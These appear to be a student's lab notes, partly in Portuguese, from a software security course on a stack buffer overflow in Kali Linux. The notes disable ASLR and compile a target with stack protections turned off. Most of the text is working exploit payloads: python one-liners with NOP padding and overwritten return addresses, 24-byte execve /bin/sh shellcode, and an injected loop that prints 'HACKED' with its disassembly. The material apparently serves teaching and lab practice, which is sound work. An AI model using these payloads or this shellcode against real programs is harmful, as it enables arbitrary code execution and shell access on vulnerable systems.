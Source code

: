 Disable randomization
kali@kali:/media/sf_Shared_SegSoft-Kali/Protocolos/3-stack$ cat /proc/sys/kernel/randomize_va_space 
2

0 = disabled
1 = Conservative Randomization
2 = Full Randomization

Stack execution
gcc -D_FORTIFY_SOURCE=0 -W -no-pie -fno-stack-protector -z execstack stack.c -o stack

===============================================================================

loop infinito
python -c 'print "\x90"*8*5 + "\x99\x11\x40\x00\x00\x00\x00\x00"' > badfile
python -c 'print "\x90"*8*5 + "\x99\x11\x40\x00\x00\x00\x00\x00"' > smasher

===============================================================================

SHELLL NO GDB

Inicio do buffer: 0x00007fffffffcdc0

---------------------------------

\x6a\x3b\x58\x99\x52\x48\xbb\x2f -> shellcode
\x2f\x62\x69\x6e\x2f\x73\x68\x53 -> shellcode
\x54\x5f\x52\x57\x54\x5e\x0f\x05 -> shellcode

\xc0\xdf\xff\xff\xff\x7f\x00\x00 -> return (meter a apontar para a shellcode)

\x90\x90\x90\x90\x90\x90\x90\x90 -> ebp(?)

\x90\x90\x90\x90\x90\x90\x90\x90 -> buffer[32]
\x90\x90\x90\x90\x90\x90\x90\x90 -> buffer[32]
\x90\x90\x90\x90\x90\x90\x90\x90 -> buffer[32]
\x90\x90\x90\x90\x90\x90\x90\x90 -> buffer[32]

---------------------------------

Exploit:
	python -c 'print "\x90"*8*5 + "\xd0\xdf\xff\xff\xff\x7f\x00\x00" + "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"' > smasher
	gdb stack
	run
Shell code:
	24 bytes -> char code[] = "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05";

===============================================================================

Executar loop sem nada dentro (a: goto a;)
python -c 'print "\x90"*8*5 + "\xd0\xdf\xff\xff\xff\x7f\x00\x00" + "\x55\x48\x89\xe5\x89\x7d\xfc\x48\x89\x75\xf0\xeb\xfe\x90"' > smasher
gdb stack
run

===============================================================================
HACKED

python -c 'print "\x90"*8*5 + "\x90\xdf\xff\xff\xff\x7f\x00\x00" + "A"*88' > smasher

python -c 'print "A"*8*5 + "\x90\xdf\xff\xff\xff\x7f\x00\x00" + "\x55\x48\x89\xe5\x48\x83\xec\x20\x89\x7d\xec\x48\x89\x75\xe0\xc6\x45\xf8\x48\xc6\x45\xf9\x41\xc6\x45\xfa\x43\xc6\x45\xfb\x4b\xc6\x45\xfc\x45\xc6\x45\xfd\x44\xc6\x45\xfe\x0a\xc6\x45\xff\x00\x48\x8d\x45\xf8\x48\xba\x20\xea\xe4\xf7\xff\x7f\x00\x00\x48\x89\xc7\xb8\x00\x00\x00\x00\xff\xd2\xeb\xe6\x0f\x1f\x44\x00\x00"' > smasher
gdb stack
run

(88)
\x55
\x48\x89\xe5
\x48\x83\xec\x20
\x89\x7d\xec
\x48\x89\x75\xe0
\xc6\x45\xf8\x48
\xc6\x45\xf9\x41
\xc6\x45\xfa\x43
\xc6\x45\xfb\x4b
\xc6\x45\xfc\x45
\xc6\x45\xfd\x44
\xc6\x45\xfe\x0a
\xc6\x45\xff\x00
\x48\x8d\x45\xf8
\x48\xba\x20\xea\xe4\xf7\xff
\x7f\x00\x00
\x48\x89\xc7
\xb8\x00\x00\x00\x00
\xff\xd2
\xeb\xe6
\x0f\x1f\x44\x00\x00

0000000000401102 <main>:
  401102:       55                      push   %rbp
  401103:       48 89 e5                mov    %rsp,%rbp
  401106:       48 83 ec 20             sub    $0x20,%rsp
  40110a:       89 7d ec                mov    %edi,-0x14(%rbp)
  40110d:       48 89 75 e0             mov    %rsi,-0x20(%rbp)
  401111:       c6 45 f8 48             movb   $0x48,-0x8(%rbp)
  401115:       c6 45 f9 41             movb   $0x41,-0x7(%rbp)
  401119:       c6 45 fa 43             movb   $0x43,-0x6(%rbp)
  40111d:       c6 45 fb 4b             movb   $0x4b,-0x5(%rbp)
  401121:       c6 45 fc 45             movb   $0x45,-0x4(%rbp)
  401125:       c6 45 fd 44             movb   $0x44,-0x3(%rbp)
  401129:       c6 45 fe 0a             movb   $0xa,-0x2(%rbp)
  40112d:       c6 45 ff 00             movb   $0x0,-0x1(%rbp)
  401131:       48 8d 45 f8             lea    -0x8(%rbp),%rax
  401135:       48 ba 20 ea e4 f7 ff    movabs $0x7ffff7e4ea20,%rdx
  40113c:       7f 00 00 
  40113f:       48 89 c7                mov    %rax,%rdi
  401142:       b8 00 00 00 00          mov    $0x0,%eax
  401147:       ff d2                   callq  *%rdx
  401149:       eb e6                   jmp    401131 <main+0x2f>
  40114b:       0f 1f 44 00 00          nopl   0x0(%rax,%rax,1)


=================================================================================================

python -c 'print "\x90"*8*5 + "\xd0\xdf\xff\xff\xff\x7f\x00\x00" + "<EXECUTA>"' > smasher


